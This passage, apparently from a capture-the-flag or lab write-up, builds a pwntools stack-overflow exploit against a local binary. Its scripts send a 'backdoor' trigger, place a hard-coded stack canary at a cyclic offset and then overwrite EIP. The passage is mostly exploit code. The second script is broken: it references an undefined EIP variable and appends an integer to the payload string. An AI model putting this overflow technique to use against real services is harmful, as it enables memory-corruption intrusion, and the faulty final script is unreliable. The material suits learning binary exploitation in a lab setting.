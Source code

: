 We will throw this script at the running binary under `gdb`.

<script type="text/javascript" src="https://asciinema.org/a/03icgugke7qkq8s3ockifmznx.js" id="asciicast-03icgugke7qkq8s3ockifmznx" async></script>


Awesome! We know the stack canary must be at `bbaa` offset in our `cyclic` string. Updating the script..


```python
from pwn import *

# Pack 32 bit integer using binjitsu
canary = p32(0xe4ffffe4)

r = remote('localhost', 4242)

# Activate the backdoor
r.sendline('X')

# Send our cyclic payload - 200 bytes we see from source
payload = ''
payload += 'A' * cyclic_find('bbaa')
payload += canary
payload += cyclic(200 - len(payload))

r.sendline(payload)

r.interactive() 
```

We are now past the stack canary check. Let's use the same technique to figure out where in the next `cyclic` string we overwrite EIP.

<script type="text/javascript" src="https://asciinema.org/a/ax552duas9rvcbo05tk5671qp.js" id="asciicast-ax552duas9rvcbo05tk5671qp" async></script>

Knowing that EIP control is at offset `baaa`, we can update our script to have EIP control.


```python
from pwn import *

# Pack 32 bit integer using binjitsu
canary = p32(0xe4ffffe4)

r = remote('localhost', 4242)

# Activate the backdoor
r.sendline('X')

# Send our cyclic payload - 200 bytes we see from source
payload = ''
payload += 'A' * cyclic_find('bbaa')
payload += canary
payload += 'B' * cyclic_find('baaa')
payload += EIP
payload += (200 - len(payload))

r.sendline(payload)

r.interactive() 
```
